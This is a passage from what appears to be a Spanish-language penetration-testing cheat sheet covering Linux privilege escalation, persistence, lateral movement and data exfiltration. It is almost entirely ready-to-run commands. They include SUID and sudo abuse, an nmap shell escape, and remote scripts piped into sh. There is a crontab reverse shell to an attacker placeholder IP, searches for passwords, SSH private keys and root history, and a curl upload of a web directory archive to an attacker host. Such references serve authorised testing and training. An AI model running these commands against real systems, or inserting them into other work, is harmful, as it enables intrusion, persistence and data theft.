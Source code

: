 ### 4.2. Escalación de Privilegios

```bash
# Verificación de permisos sudo (vector de escalación clave)
sudo -l

# Búsqueda de binarios SUID
find / -perm -u=s -type f 2>/dev/null

# Búsqueda de tareas programadas
crontab -l
cat /etc/crontab

# Explotación de Sudo/SUID (Referencia GTFOBins)
sudo nmap --interactive
nmap> !sh

# Scripts de Automatización para Escalación (muy recomendados)
# LinEnum: Enumeración automatizada
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && ./LinEnum.sh

# LinPEAS: Análisis exhaustivo y con colores
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### 4.3. Técnicas de Persistencia y Movimiento Lateral

```bash
# Persistencia via crontab
echo "*/10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/[IP_atacante]/4444 0>&1'" >> /var/spool/cron/root

# Túnel dinámico (SOCKS Proxy) para pivoting
ssh -D 9050 user@[IP_objetivo]

# Configuración de proxychains para usar el túnel
# (Editar /etc/proxychains4.conf y añadir "socks5 127.0.0.1 9050")
proxychains nmap -sT -Pn [IP_objetivo_interno]
```

### 4.4. Búsqueda de Información Sensible y Exfiltración

```bash
# Buscar archivos de configuración con credenciales
find / -type f -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null

# Localizar claves SSH privadas
find / -name "id_rsa" 2>/dev/null

# Análisis de historial de comandos
cat /root/.bash_history 2>/dev/null

# Compresión y exfiltración de datos via HTTP
tar -czf /tmp/data.tar.gz /var/www
curl -X POST -F "file=@/tmp/data.tar.gz" http://[IP_atacante]:8000/upload
```
